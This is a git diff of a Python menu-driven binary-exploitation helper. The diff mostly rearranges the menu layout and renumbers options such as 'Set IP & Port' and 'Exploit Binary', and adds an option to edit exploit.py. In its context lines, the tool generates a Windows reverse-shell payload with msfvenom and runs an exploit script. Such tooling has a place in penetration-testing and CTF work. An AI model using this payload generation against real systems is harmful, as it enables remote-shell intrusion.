

Full Stack

diff --git a/BinaryMaster-WideSceeen.py b/BinaryMaster-WideSceeen.py
@@ -1,3 +1,4 @@
+# BINARY MASTER
 #!/usr/bin/python3
 # coding:UTF-8
 
@@ -344,128 +345,8 @@ def dispMenu():
    return
    
 def options():
-   print('\u2551' + "(01) ACCUMULATOR  (11) START  ADDRESS (21) PUTS@PLT ADDRESS (31) ExtractGadgets (41) MSF PatternCreate (51) Hexcode Editor" + '\u2551',end=' ')
-   if "main" in FUNC[13]:
-      print(colored(FUNC[13],colour3), end=' ')
-   else:
-      print(colored(FUNC[13],colour6), end=' ')      
-   print('\u2551' + " ", end='')
-   print(colored(GADG[13] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[13] + " " , colour5, attrs=['bold']), end='')   
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(02) BASE         (12) MAIN   ADDRESS (22) PUTS@GOT ADDRESS (32) Read  PrivHead (42) Program Interface (52) SecComp   Dump" + '\u2551',end=' ')
-   if "main" in FUNC[14]:
-      print(colored(FUNC[14],colour3), end=' ')
-   else:
-      print(colored(FUNC[14],colour6), end=' ')  
-   print('\u2551' + " ", end='')
-   print(colored(GADG[14] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[14] + " " , colour5, attrs=['bold']), end='')   
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(03) COUNTER      (13) SYSTEM ADDRESS (23) POP RDI  ADDRESS (33) Read  Sections (43) L-Trace Interface (53) Use ShellCraft" + '\u2551',end=' ')
-   if "main" in FUNC[15]:
-      print(colored(FUNC[15],colour3), end=' ')
-   else:
-      print(colored(FUNC[15],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[15] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[15] + " " , colour5, attrs=['bold']), end='')      
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- - 
-   print('\u2551' + "(04) DATA         (14) FUNCTION  ADDR (24) LIBC     ADDRESS (34) Read   Headers (44) G.D.B.  Interface (54) NASM Shellcode" + '\u2551', end=' ')
-   if "main" in FUNC[16]:
-      print(colored(FUNC[16],colour3), end=' ')
-   else:
-      print(colored(FUNC[16],colour6), end=' ')
-   print('\u2551' + " ", end='')
-   print(colored(GADG[16] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[16] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(05) SOURCE INDEX (15) OVERWRITE ADDR (25) Select  FILENAME (35) ReadExecutable (45) MSF PatternSearch (55) MSF  Shellcode" + '\u2551',end=' ')
-   if "main" in FUNC[17]:
-      print(colored(FUNC[17],colour3), end=' ')
-   else:
-      print(colored(FUNC[17],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[17] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[17] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-   # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- - 
-   print('\u2551' + "(06) DESTIN INDEX (16) MEMORY    ADDR (26) Switch File Mode (36) Read DeBugInfo (46) Set Buffer OFFSET (56) RESERVED      " + '\u2551',end=' ')
-   if "main" in FUNC[18]:
-      print(colored(FUNC[18],colour3), end=' ')
-   else:
-      print(colored(FUNC[18],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[18] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[18] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(07) STACKPOINTER (17) POINTER   ADDR (27) Examine  Program (37) Read Assembley (47) Adjust the OFFSET (57) Set IP &  Port" + '\u2551',end=' ')
-   if "main" in FUNC[19]:
-      print(colored(FUNC[19],colour3), end=' ')
-   else:
-      print(colored(FUNC[19],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[19] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[19] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(08) BASE POINTER (18) CUSTOM-1  ADDR (28) CheckSec Program (38) Read   Symbols (48) Dis-Assemble MAIN (58) Exploit Binary" + '\u2551',end=' ')
-   if "main" in FUNC[20]:
-      print(colored(FUNC[20],colour3), end=' ')
-   else:
-      print(colored(FUNC[20],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[20] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[20] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + "(09) INST POINTER (19) CUSTOM-2  ADDR (29) G.D.B. Functions (39) Read Stab Data (49) Dis-Assemble FUNC (59) Read OP Manual" + '\u2551',end=' ')
-   if "main" in FUNC[21]:
-      print(colored(FUNC[21],colour3), end=' ')
-   else:
-      print(colored(FUNC[21],colour6), end=' ')     
-   print('\u2551' + " ", end='')
-   print(colored(GADG[21] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[21] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
-# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -     
-   print('\u2551' + "(10) PIE  ADDRESS (20) CUSTOM-3  ADDR (30) Radar2 Functions (40) Read HexFormat (50) Dis-Assemble ADDR (60) Exit Program  " + '\u2551',end=' ')
-   if "main" in FUNC[22]:
-      print(colored(FUNC[22],colour3), end=' ')
-   else:
-      print(colored(FUNC[22],colour6), end=' ')   
-   print('\u2551' + " ", end='')
-   print(colored(GADG[22] + " ", colour6), end='')
-   print('\u2551' + " " , end='')
-   print(colored(CODE[22] + " " , colour5, attrs=['bold']), end='')
-   print('\u2551')
 
-   print('\u2560' + ('\u2550'*122) + '\u2563', end=' ')
-   if "main" in FUNC[23]:
-      print(colored(FUNC[23], colour3), end=' ')
-   else:
-      print(colored(FUNC[23], colour6), end=' ')
-   print('\u2551', end =' ')
-   print(colored(GADG[23], colour6), end=' ')
-   print('\u2551', end=' ')
-   print(colored(CODE[23], colour5, attrs=['bold']), end=' ')
-   print('\u2551')
-
-   for z in range(24, maxDispl-3):
+   for z in range(13, 23):
       print('\u2551', end='')
       print(colored("▉"*122, colour1),end='')
       print('\u2551', end=' ')
@@ -478,6 +359,154 @@ def options():
       print('\u2551', end=' ')
       print(colored(CODE[z], colour5, attrs=['bold']), end=' ')
       print('\u2551')
+      
+      
+   print('\u2560' + ('\u2550'*122) + '\u2563', end=' ')
+   if "main" in FUNC[23]:
+      print(colored(FUNC[23], colour3), end=' ')
+   else:
+      print(colored(FUNC[23], colour6), end=' ')
+   print('\u2551', end =' ')
+   print(colored(GADG[23], colour6), end=' ')
+   print('\u2551', end=' ')
+   print(colored(CODE[23], colour5, attrs=['bold']), end=' ')
+   print('\u2551')
+
+#24
+   print('\u2551' + "(01) ACCUMULATOR  (11) START  ADDRESS (21) PUTS@PLT ADDRESS (31) ExtractGadgets (41) MSF PatternCreate (51) Hexcode Editor" + '\u2551',end=' ')
+   if "main" in FUNC[24]:
+      print(colored(FUNC[24],colour3), end=' ')
+   else:
+      print(colored(FUNC[24],colour6), end=' ')      
+   print('\u2551' + " ", end='')
+   print(colored(GADG[24] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[24] + " " , colour5, attrs=['bold']), end='')   
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(02) BASE         (12) MAIN   ADDRESS (22) PUTS@GOT ADDRESS (32) Read  PrivHead (42) Program Interface (52) SecComp   Dump" + '\u2551',end=' ')
+   if "main" in FUNC[25]:
+      print(colored(FUNC[25],colour3), end=' ')
+   else:
+      print(colored(FUNC[25],colour6), end=' ')  
+   print('\u2551' + " ", end='')
+   print(colored(GADG[25] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[25] + " " , colour5, attrs=['bold']), end='')   
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(03) COUNTER      (13) SYSTEM ADDRESS (23) POP RDI  ADDRESS (33) Read  Sections (43) L-Trace Interface (53) Use ShellCraft" + '\u2551',end=' ')
+   if "main" in FUNC[26]:
+      print(colored(FUNC[26],colour3), end=' ')
+   else:
+      print(colored(FUNC[26],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[26] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[26] + " " , colour5, attrs=['bold']), end='')      
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- - 
+   print('\u2551' + "(04) DATA         (14) FUNCTION  ADDR (24) LIBC     ADDRESS (34) Read   Headers (44) G.D.B.  Interface (54) NASM Shellcode" + '\u2551', end=' ')
+   if "main" in FUNC[27]:
+      print(colored(FUNC[27],colour3), end=' ')
+   else:
+      print(colored(FUNC[27],colour6), end=' ')
+   print('\u2551' + " ", end='')
+   print(colored(GADG[27] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[27] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(05) SOURCE INDEX (15) OVERWRITE ADDR (25) Select  FILENAME (35) ReadExecutable (45) MSF PatternSearch (55) MSF  Shellcode" + '\u2551',end=' ')
+   if "main" in FUNC[17]:
+      print(colored(FUNC[28],colour3), end=' ')
+   else:
+      print(colored(FUNC[28],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[28] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[28] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+   # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- - 
+   print('\u2551' + "(29) DESTIN INDEX (16) MEMORY    ADDR (26) Switch File Mode (36) Read DeBugInfo (46) Set Buffer OFFSET (56) Set IP & Port " + '\u2551',end=' ')
+   if "main" in FUNC[29]:
+      print(colored(FUNC[29],colour3), end=' ')
+   else:
+      print(colored(FUNC[29],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[29] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[29] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(07) STACKPOINTER (17) POINTER   ADDR (27) Examine  Program (37) Read Assembley (47) Adjust the OFFSET (57) Exploit Binary" + '\u2551',end=' ')
+   if "main" in FUNC[30]:
+      print(colored(FUNC[30],colour3), end=' ')
+   else:
+      print(colored(FUNC[30],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[30] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[30] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(08) BASE POINTER (18) CUSTOM-1  ADDR (28) CheckSec Program (38) Read   Symbols (48) Dis-Assemble MAIN (58) Edit PWN Code " + '\u2551',end=' ')
+   if "main" in FUNC[31]:
+      print(colored(FUNC[31],colour3), end=' ')
+   else:
+      print(colored(FUNC[31],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[31] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[31] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
+   print('\u2551' + "(09) INST POINTER (19) CUSTOM-2  ADDR (29) G.D.B. Functions (39) Read Stab Data (49) Dis-Assemble FUNC (59) Read OP Manual" + '\u2551',end=' ')
+   if "main" in FUNC[32]:
+      print(colored(FUNC[32],colour3), end=' ')
+   else:
+      print(colored(FUNC[32],colour6), end=' ')     
+   print('\u2551' + " ", end='')
+   print(colored(GADG[32] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[32] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+# -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -     
+   print('\u2551' + "(10) PIE  ADDRESS (20) CUSTOM-3  ADDR (30) Radar2 Functions (40) Read HexFormat (50) Dis-Assemble ADDR (60) Exit Program  " + '\u2551',end=' ')
+   if "main" in FUNC[33]:
+      print(colored(FUNC[33],colour3), end=' ')
+   else:
+      print(colored(FUNC[33],colour6), end=' ')   
+   print('\u2551' + " ", end='')
+   print(colored(GADG[33] + " ", colour6), end='')
+   print('\u2551' + " " , end='')
+   print(colored(CODE[33] + " " , colour5, attrs=['bold']), end='')
+   print('\u2551')
+
+#   print('\u2560' + ('\u2550'*122) + '\u2563', end=' ')
+#   if "main" in FUNC[34]:
+#      print(colored(FUNC[34], colour3), end=' ')
+#   else:
+#      print(colored(FUNC[34], colour6), end=' ')
+#   print('\u2551', end =' ')
+#   print(colored(GADG[34], colour6), end=' ')
+#   print('\u2551', end=' ')
+#   print(colored(CODE[34], colour5, attrs=['bold']), end=' ')
+#   print('\u2551')
+
+#   for z in range(24, maxDispl-3):
+#      print('\u2551', end='')
+#      print(colored("▉"*122, colour1),end='')
+#      print('\u2551', end=' ')
+#      if "main" in FUNC[z]:
+#         print(colored(FUNC[z], colour3), end=' ')
+#      else:
+#         print(colored(FUNC[z], colour6), end=' ')
+#      print('\u2551', end =' ')
+#      print(colored(GADG[z], colour6), end=' ')
+#      print('\u2551', end=' ')
+#      print(colored(CODE[z], colour5, attrs=['bold']), end=' ')
+#      print('\u2551')
    
    print('\u255A' + ('\u2550')*122 + '\u2569' +  ('\u2550')*38 + '\u2569' + ('\u2550')*76 + '\u2569' + ('\u2550')*76 + '\u255D')
    
@@ -2186,23 +2215,8 @@ while True:
       else:
          command("msfvenom -p windows/shell_reverse_tcp LHOST=" + localHost + " LPORT=" + localPort + " EXITGRAD=thread -f c -a x" + ARC[:2] + " > payload.tmp")
       catsFile("payload.tmp")
-      prompt()  
-      
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : FULL STACK
-# Details : Menu option selected - Blank.
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '56':
-      if DATA[0][:7].upper() == "UNKNOWN":
-         print("[-] Filename not specified...")
-      else:
-         pass
       prompt() 
-      
+
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
@@ -2211,7 +2225,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '57':
+   if selection == '56':
       if DATA[0][:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
@@ -2219,7 +2233,7 @@ while True:
          DATA[10] = spacePadding(DATA[10], COL1)
          DATA[11] = input("[?] Please enter remote port number: ")
          DATA[11] = spacePadding(DATA[11], COL1)
-      prompt()      
+      prompt()  
       
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -2229,7 +2243,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '58':
+   if selection == '57':
       if DATA[0][:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
@@ -2450,6 +2464,18 @@ while True:
          command("python3 exploit.py 2> error.tmp")
          os.chdir("..")
       prompt()                       
+      
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : FULL STACK
+# Details : Menu option selected - Blank.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '58':
+      command("gedit " + localDir + "/exploit.py")
+      prompt()      
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    

diff --git a/README.md b/README.md
@@ -25,7 +25,7 @@ USAGE : python3 BinaryMaster.py
 | LANGUAGE  | FILENAME                    | MD5 Hash                         | DESCRIPTION    | VERSION    |
 |------     |------                       | -------                          | ------         | ----       |
 | python3   | BinaryMaster.py             | f6ccc622e09d87f0919565258b833e40 | Command Centre | Full Stack |
-| python3   | BinaryMaster-WideScreen.py) | 365817a9b6be205968b67816b43dd2cb | Command Centre | Full Stack |
+| python3   | BinaryMaster-WideScreen.py) | 24384a430de2557b79245572b2c02cb8 | Command Centre | Full Stack |
 | SQL       | RA.db                       | 9028b903ebec73df11850d1e91c5244e | Database       | Full Stack | 
 
 	[x] Database currently not linked.
